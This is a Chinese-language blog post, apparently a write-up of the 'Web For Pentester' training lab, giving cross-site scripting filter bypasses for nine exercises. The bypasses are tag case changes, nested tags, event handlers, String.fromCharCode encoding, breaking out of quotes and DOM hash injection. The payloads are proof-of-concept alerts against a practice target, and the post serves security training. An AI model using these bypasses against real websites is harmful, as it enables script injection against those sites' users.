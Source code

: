 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
categories: [pentest, Training documents]

---
```




### XSS Example 1

直接输出无任何过滤：

**name=\<script>alert(/XSS/)\</script>**

### XSS Example 2s
过滤掉了\<script>标签，通过大小写进行绕过：

**name=\<Script>alert(/XSS/)\</Script>**

### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：


**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**

### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：


**name=\<img src=1 onerror="alert(/XSS/)">**

### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过：


**name=\<img src=1 onerror="confirm(/XSS/)">**

> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用

### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好：


**name=XSS";alert($a);//**

### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则将双引号改为单引号即可


**name=XSS';alert($a);//**

### XSS Example 8
查询功能，将查询内容反馈至页面，那么也就是存储型XSS，使用\<script>标签进行测试，通过查看源码发现<>尖括号被HTML编码，一般来说XSS漏洞修复若将尖括号进行编码后输出可视为安全的，但发现这里的form表单里的url可为任意构造，尝试访问如下带有payload的url成功
**/xss/example8.php/" onmouseover="alert(1)**

### XSS Example 9
同样审查元素，发现这里是一个很经典的DOM-Based XSS，使用了location.hash.substring(1)，那么直接构造
**/xss/example9.php#\<script>alert(/XSS/)\</script>**
